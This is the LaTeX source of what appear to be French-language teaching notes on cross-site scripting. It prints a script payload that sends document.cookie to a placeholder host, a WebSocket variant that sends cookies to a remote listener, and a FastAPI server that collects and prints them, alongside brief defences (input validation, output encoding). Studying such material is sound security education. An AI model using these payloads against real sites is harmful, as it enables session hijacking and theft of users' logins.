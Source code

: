 \documentclass[a4paper]{article}
\begin{document}
\begin{itemize}
\item Vol de cookie:
\begin{example}
    Oui, on peut récupérer des cookies avec ce genre de script:
    \begin{example}
        \texttt{<script>document.location='http://<site>/?c='+document.cookie</script>}
    \end{example}
    Sur le serveur, on peut:
    \begin{itemize}
        \item valider les entrées
        \item encoder les sorties (ex: < devient \&lt;)
    \end{itemize}
\end{example}


\item HTML5 Socket:
\begin{example} \begin{itemize}

\item Script javascript websocket pour envoyer les cookies à une machine distante:
\begin{lstlisting}[style=javascript]
<script> var ws = new WebSocket("ws://localhost:8000/ws"); </script>
<button value="x" onclick="ws.send(document.cookie);">
\end{lstlisting}

\item Installation de fastapi: \texttt{pip3 install fastapi \&\& sudo apt install uvicorn}

\item Code python:

\item Script pour écouter en local:
\begin{example} \begin{verbatim}
from fastapi import FastAPI, WebSocket

app = FastAPI()

@app.websocket("/ws")
async def websocket_endpoint(websocket: WebSocket):
    await websocket.accept()
    while True:
        data = await websocket.receive_text()
        print(f"Cookies are: {data}")
\end{verbatim} \end{example}

\item Lancer le serveur: \texttt{uvicorn websocket:app -{}-reload}

\end{itemize} \end{example}


\end{itemize}




















\newpage \tableofcontents
\end{document}
